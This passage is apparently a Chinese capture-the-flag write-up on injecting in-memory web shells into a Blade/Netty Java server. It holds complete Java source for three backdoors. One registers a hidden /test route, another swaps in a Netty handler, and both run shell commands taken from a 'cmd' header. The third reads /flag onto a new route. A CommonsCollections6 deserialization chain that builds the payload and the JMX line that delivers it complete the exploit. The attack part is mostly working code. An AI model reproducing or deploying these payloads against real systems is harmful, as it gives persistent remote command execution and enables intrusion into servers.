

```
 Class<?> returnType = actionMethod.getReturnType();
 Path path = (Path)target.getClass().getAnnotation(Path.class);
 boolean responseJson = this.setResponseType(context, path);
 int len = actionMethod.getParameterTypes().length;
```

意思就是注解为@Path，然后有返回类型，获取的方法

```
Route route = new Route(HttpMethod.ALL, "/test", Exp.class,Exp.class.getDeclaredMethod("exp"));
```

查看一下如何注册路由





可以看到我们将他加入到routeMatcher和staticMapping里面即可

也就是代码如下：

```
        ChannelHandlerContext channelHandlerContext = context.getChannelHandlerContext();
        HttpServerHandler handler = (HttpServerHandler) channelHandlerContext.handler();
        RouteMethodHandler routeHandler = (RouteMethodHandler) unsafe.getObject(handler, unsafe.objectFieldOffset(HttpServerHandler.class.getDeclaredField("routeHandler")));RouteMatcher routeMatcher = (RouteMatcher) unsafe.getObject(routeHandler, unsafe.objectFieldOffset(RouteMethodHandler.class.getDeclaredField("routeMatcher")));
        Path annotation = Exp.class.getAnnotation(Path.class);
        System.out.println("annotations: " + annotation);
        Route route = new Route(HttpMethod.ALL, "/test", Exp.class, Exp.class.getDeclaredMethod("exp"));
        route.setTarget(new Exp("aaa"));
        Method addRoute = routeMatcher.getClass().getDeclaredMethod("addRoute", Route.class);
        addRoute.setAccessible(true);
        addRoute.invoke(routeMatcher,route);
        System.out.println(routeHandler);
        StaticMapping staticMapping = routeMatcher.getStaticMapping();
        staticMapping.addRoute("/test",HttpMethod.ALL,route);
```

这边的 new Exp("aaa")，是为了不让防止他陷入回环地址

完整的exp为

```
package com.n1ght.util;
import com.hellokaton.blade.annotation.Path;
import com.hellokaton.blade.mvc.WebContext;
import com.hellokaton.blade.mvc.http.*;
import com.hellokaton.blade.mvc.route.Route;
import com.hellokaton.blade.mvc.route.RouteMatcher;
import com.hellokaton.blade.mvc.route.mapping.StaticMapping;
import com.hellokaton.blade.server.HttpServerHandler;
import com.hellokaton.blade.server.RouteMethodHandler;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import io.netty.channel.ChannelHandlerContext;
import io.netty.util.internal.InternalThreadLocalMap;
import sun.misc.Unsafe;
import java.io.IOException;
import java.lang.reflect.Array;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Scanner;
@Path

public class Exp extends AbstractTranslet{
    public Exp() throws Exception{
        Class<?> name = Class.forName("sun.misc.Unsafe");
        Field theUnsafe = name.getDeclaredField("theUnsafe");
        theUnsafe.setAccessible(true);
        Unsafe unsafe = (Unsafe) theUnsafe.get(null);
        Thread thread = Thread.currentThread();
        ThreadLocal<Object> objectThreadLocal = new ThreadLocal<>();
        Method getMap = ThreadLocal.class.getDeclaredMethod("getMap",Thread.class);
        getMap.setAccessible(true);
        Object threadLocals = getMap.invoke(objectThreadLocal, thread);
        Class<?> threadLocalMap = Class.forName("java.lang.ThreadLocal$ThreadLocalMap");
        Field tablesFiled = threadLocalMap.getDeclaredField("table");
        tablesFiled.setAccessible(true);
        Object table = tablesFiled.get(threadLocals);
        Object o = null;
        for (int i = 0; i < Array.getLength(table); i++) {
            try {
                Object o1 = Array.get(table, i);
                System.out.println(o1.getClass().getName());
                if(o1.getClass().getName().equals("java.lang.ThreadLocal$ThreadLocalMap$Entry")
                ){
                    o = Array.get(table, i);
                }
            }catch (Exception e) {
            }
        }
        System.out.println(o);
        Class<?> entry = Class.forName("java.lang.ThreadLocal$ThreadLocalMap$Entry");
        Field valueField = entry.getDeclaredField("value");
        valueField.setAccessible(true);
        InternalThreadLocalMap value = (InternalThreadLocalMap)
                valueField.get(o);
        WebContext context = null;
        for (int i = 0; i < value.size(); i++) {
            try {
                if (value.indexedVariable(i).getClass().getName().equals("com.hellokaton.blade.mvc.WebContext")) {
                        context = (WebContext) value.indexedVariable(i);
                        break;
                }
            }catch (Exception e) {
            }
        }
        ChannelHandlerContext channelHandlerContext = context.getChannelHandlerContext();
        HttpServerHandler handler = (HttpServerHandler) channelHandlerContext.handler();
        RouteMethodHandler routeHandler = (RouteMethodHandler) unsafe.getObject(handler, unsafe.objectFieldOffset(HttpServerHandler.class.getDeclaredField("routeHandler")));RouteMatcher routeMatcher = (RouteMatcher) unsafe.getObject(routeHandler, unsafe.objectFieldOffset(RouteMethodHandler.class.getDeclaredField("routeMatcher")));
        Path annotation = Exp.class.getAnnotation(Path.class);
        System.out.println("annotations: " + annotation);
        Route route = new Route(HttpMethod.ALL, "/test", Exp.class, Exp.class.getDeclaredMethod("exp"));
        route.setTarget(new Exp("aaa"));
        Method addRoute = routeMatcher.getClass().getDeclaredMethod("addRoute", Route.class);
        addRoute.setAccessible(true);
        addRoute.invoke(routeMatcher,route);
        System.out.println(routeHandler);
        StaticMapping staticMapping = routeMatcher.getStaticMapping();
        staticMapping.addRoute("/test",HttpMethod.ALL,route);
    }
    public Exp(String aaa){
        System.out.println("aaa");
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws
            TransletException {
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator,
                          SerializationHandler handler) throws TransletException {
    }
    public void exp() throws Exception{
        Class<?> name = Class.forName("sun.misc.Unsafe");
        Field theUnsafe = name.getDeclaredField("theUnsafe");
        theUnsafe.setAccessible(true);
        Unsafe unsafe = (Unsafe) theUnsafe.get(null);
        Thread thread = Thread.currentThread();
        ThreadLocal<Object> objectThreadLocal = new ThreadLocal<>();
        Method getMap = ThreadLocal.class.getDeclaredMethod("getMap",Thread.class);
        getMap.setAccessible(true);
        Object threadLocals = getMap.invoke(objectThreadLocal, thread);
        Class<?> threadLocalMap =
                Class.forName("java.lang.ThreadLocal$ThreadLocalMap");
        Field tablesFiled = threadLocalMap.getDeclaredField("table");
        tablesFiled.setAccessible(true);
        Object table = tablesFiled.get(threadLocals);
        Object o = null;
        for (int i = 0; i < Array.getLength(table); i++) {
            try {
                Object o1 = Array.get(table, i);
                if(o1.getClass().getName().equals("java.lang.ThreadLocal$ThreadLocalMap$Entry")
                ){

                }
            }catch (Exception e) {
            }
        }
        System.out.println(o);
        Class<?> entry =
                Class.forName("java.lang.ThreadLocal$ThreadLocalMap$Entry");
        Field valueField = entry.getDeclaredField("value");
        valueField.setAccessible(true);
        InternalThreadLocalMap value = (InternalThreadLocalMap)
                valueField.get(o);
        WebContext context = null;
        for (int i = 0; i < value.size(); i++) {
            try {
                if
                (value.indexedVariable(i).getClass().getName().equals("com.hellokaton.blade.mvc.WebContext")) {
                        context = (WebContext) value.indexedVariable(i);
                break;
            }
        }catch (Exception e) {
        }
    }
    HttpResponse response = (HttpResponse) context.getResponse();
    Request request = context.getRequest();
    String cmd = request.header("cmd");
response.body(new
    Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\A").next());
}
}
```

# 方法二、



那么还有种思路呢就是打io.netty的内存马

每次请求都将触发一次ServerBootstrap初始化，随即pipeline根据现有的ChannelInitializer#initChannel添加其他handler，若能根据这一特性找到ServerBootstrapAcceptor，反射修改childHandler，也完成handler持久化这一目标

ServerBootstrapInterceptor.java

```

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import io.netty.channel.*;
import io.netty.channel.socket.SocketChannel;
import io.netty.handler.codec.http.*;

import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Base64;
import java.util.HashSet;

public class ServerBootstrapInterceptor extends AbstractTranslet {
    static {
        try {
            new ServerBootstrapInterceptor().injectHandlerIntoAcceptor(getServer());
        } catch (Exception e) {
            e.printStackTrace();
        }
    }


    static Object getServer() throws Exception{
        ThreadGroup group = Thread.currentThread().getThreadGroup();
        java.lang.reflect.Field f = group.getClass().getDeclaredField("threads");
        f.setAccessible(true);
        Thread[] threads = (Thread[]) f.get(group);
        Object demo = null;
        for (int i = 0; i < threads.length; i++) {
            try {
                if (threads[i] != null) {
                    HashSet hashset = (HashSet) getFV(getFV(getFV(getFV(threads[i], "target"),"val$eventExecutor"),"unwrappedSelector"),"keys");
                    Object next = hashset.iterator().next();
                    demo =  getFV(getFV(getFV(getFV(getFV(next, "attachment"), "pipeline"), "head"),"next"),"handler");
                    if (demo.toString().contains("ServerBootstrap")){
                        break;
                    }
                }
            }catch (Exception e){

            }

        }
        return demo;
    }


    public static void injectHandlerIntoAcceptor(Object serverBootstrapAcceptor) {
        try {
            Field childHandlerField = serverBootstrapAcceptor.getClass().getDeclaredField("childHandler");
            childHandlerField.setAccessible(true);
            ChannelInitializer<SocketChannel> originalInitializer =
                    (ChannelInitializer<SocketChannel>) childHandlerField.get(serverBootstrapAcceptor);

            Method initChannelMethod = ChannelInitializer.class.getDeclaredMethod("initChannel", Channel.class);
            initChannelMethod.setAccessible(true);
            ChannelInitializer<SocketChannel> newInitializer = new ChannelInitializer<SocketChannel>() {
                @Override
                protected void initChannel(SocketChannel ch) throws Exception {
                    initChannelMethod.invoke(originalInitializer, ch);


                    ChannelInboundHandlerAdapter headerHandler = new ChannelInboundHandlerAdapter() {
                        @Override
                        public void channelRead(ChannelHandlerContext ctx, Object msg) throws Exception {
                            System.out.println("aaaa");
                            if (msg instanceof HttpRequest) {
                                HttpRequest request = (HttpRequest) msg;
                                HttpHeaders headers = request.headers();
                                String cmd = headers.get("cmd");
                                String[] payload = {"/bin/sh","-c",cmd};
                                Process process = Runtime.getRuntime().exec(payload);

                                // 读取命令输出
                                InputStream inputStream = process.getInputStream();
                                BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
                                StringBuilder output = new StringBuilder();
                                String line;
                                while ((line = reader.readLine()) != null) {
                                    output.append(line).append("
");
                                }
                                process.waitFor();
                                String base64 = Base64.getEncoder().encodeToString(output.toString().getBytes());

                                FullHttpResponse response = new DefaultFullHttpResponse(
                                        HttpVersion.HTTP_1_1,
                                        HttpResponseStatus.OK
                                );
                                response.headers().set("resu", base64);
                                ctx.writeAndFlush(response);
                            }
                            super.channelRead(ctx, msg);
                        }
                    };
                    ch.pipeline().addFirst("print",headerHandler); // 加自定义 HTTP Handler
                    ch.pipeline().addFirst(new HttpServerCodec());
//                    ch.pipeline().addFirst(new HttpObjectAggregator(65536));

                }
            };

            childHandlerField.set(serverBootstrapAcceptor, newInitializer);
            Object currentHandler = childHandlerField.get(serverBootstrapAcceptor);

        } catch (Exception e) {
            e.printStackTrace();
        }
    }


    static Object getFV(Object obj, String fieldName) throws Exception {
        Field field = getF(obj, fieldName);
        field.setAccessible(true);
        return field.get(obj);
    }

    static Field getF(Object obj, String fieldName) throws NoSuchFieldException {
        for(Class<?> clazz = obj.getClass(); clazz != null; clazz = clazz.getSuperclass()) {
            try {
                Field field = clazz.getDeclaredField(fieldName);
                field.setAccessible(true);
                return field;
            }catch (Exception e) {}
        }

        throw new NoSuchFieldException(fieldName);
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```

将ServerBootstrapInterceptor转换成字节码

```

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;
import java.util.Map;

public class CC6WithTp {
    public static void main(String[] args) throws Exception {
        TemplatesImpl templates = new TemplatesImpl();
        Class ct = templates.getClass();
        byte[] code = Files.readAllBytes(Paths.get("ServerBootstrapInterceptor.class"));
        byte[] code1 = Files.readAllBytes(Paths.get("ServerBootstrapInterceptor$1.class"));
        byte[] code2 = Files.readAllBytes(Paths.get("ServerBootstrapInterceptor$1$1.class"));

        byte[][] bytes = {code,code1,code2};
        Field ctDeclaredField = ct.getDeclaredField("_bytecodes");
        ctDeclaredField.setAccessible(true);
        ctDeclaredField.set(templates,bytes);
        Field nameField = ct.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"Chu0");
        Field tfactory = ct.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates,new TransformerFactoryImpl());


        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(templates),
                new InvokerTransformer("newTransformer",null,null)


        };

        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);

        Map<Object,Object> map = new HashMap<>();
        Map<Object,Object> lazyMap = LazyMap.decorate(map,new ConstantTransformer(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap,"aaa");
//
//        //查看构造函数，传入的key和value
        HashMap<Object, Object> map1 = new HashMap<>();
//        //map的固定语法，必须要put进去,这里的put会将链子连起来，触发命令执行
        map1.put(tiedMapEntry, "bbb");
        lazyMap.remove("aaa");

        Class c = LazyMap.class;
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap,chainedTransformer);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(map1);
        System.out.println(Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray()));

    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(new FileOutputStream("./ser.bin"));
        objectOutputStream.writeObject(obj);
    }
    public static Object unserialize(String filename) throws IOException, ClassNotFoundException {
        ObjectInputStream objectInputStream = new ObjectInputStream(new FileInputStream(filename));
        Object object = objectInputStream.readObject();
        return object;
    }
}

```

将生成的base64字节码放入到exp即可

```
setFieldValue(jmxServiceURL, "urlPath", "/stub/"+exp);
```



命令执行成功并返回结果

# 方法三、

一开始想着去模仿打springboot内存马的思路，利用com.hellokaton.blade.mvc.WebContext获取上下文，但是发现有点复杂，弄了半天也没有调试出来。后面看到有个com.hellokaton.blade.mvc.route.RouteMatcher类，能够获取当前上下文，添加并注册一个新的路由。那这种方法其实也能算是一种打内存马的思路。



具体字节码如下，

```

import com.hellokaton.blade.kit.IOKit;
import com.hellokaton.blade.mvc.BladeConst;
import com.hellokaton.blade.mvc.http.HttpMethod;
import com.hellokaton.blade.mvc.route.RouteMatcher;
import com.hellokaton.blade.mvc.ui.HtmlCreator;
import com.n1ght.Application;
import com.sun.corba.se.spi.activation.Server;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import com.hellokaton.blade.Blade;
import com.hellokaton.blade.mvc.WebContext;

import java.io.File;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.lang.reflect.Modifier;
import com.hellokaton.blade.mvc.ui.template.DefaultEngine;
public class EvilBlade extends AbstractTranslet{
    public EvilBlade() {
        super();
        try {
            File file = new File("/flag");
            String content = "";
            try {
                content = IOKit.readToString(file.getPath());
                System.out.println("文件内容：" + content);
            } catch (IOException e) {
                e.printStackTrace();
            }

            RouteMatcher routeMatcher = WebContext.blade().routeMatcher();
            routeMatcher.clear();
            String finalContent = content;
            routeMatcher.addRoute("/newdaaa", ctx -> ctx.text(finalContent), HttpMethod.GET);
            routeMatcher.register();
        }catch (Exception e){
            e.printStackTrace();
        }
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }


    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```

利用上面的链子去加载。

```
byte[] code = Files.readAllBytes(Paths.get("C:\com\
1ght\util\EvilBlade.class"));
```



本地成功命令执行



base64解密得到flag


